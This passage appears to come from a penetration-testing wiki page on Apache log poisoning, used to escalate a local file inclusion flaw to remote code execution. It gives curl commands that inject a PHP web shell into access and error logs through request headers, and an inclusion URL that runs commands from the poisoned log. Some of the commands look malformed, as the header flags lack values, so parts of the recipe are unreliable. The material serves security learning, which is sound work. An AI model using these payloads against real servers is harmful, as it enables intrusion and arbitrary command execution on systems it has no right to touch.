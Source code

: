 {{<hint info>}}
It is recommended to first load the target log,
not only to verify the access
but to identify what data is being stored.

Administrators can modify the logged data
according to their needs.
{{</hint>}}

### Apache

By default,
Apache maintains access and error logs.
The `error` log,
commonly,
register the `Referer` header,
while the `acccess` log,
the `User-Agent`.
[^apache-log]

#### Access Log
Make a valid request
with the code in the `User-Agent` header.

```sh
curl -H 'User-Agent' --data "<?php system($_GET['c']); ?>" "http://{{< param "m.RDOMAIN" >}}" -v
```
#### Error Log
Make an invalid request,
an invalid inclusion for example,
with the suitable `Referer` header.

```sh
curl -H 'Referer' --data "<?php system($_GET['c']); ?>" "http://{{< param "m.RDOMAIN" >}}/invalid#req" -v
```

{{<hint m.ING>}}
The Apache logging API
escapes strings going to the logs.

Use single quotes (`'`)
since double quotes (`"`) are replaced escaped as `"quote";`
{{</hint>}}

#### LFI

```txt
http://{{< param "m.RDOMAIN" >}}/index.php?page=/path/to/access.log&c=id
```

#### Common Apache Log Paths

Log files can also be set to custom locations,
either globally,
or domain based if virtual hosting is enabled.


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.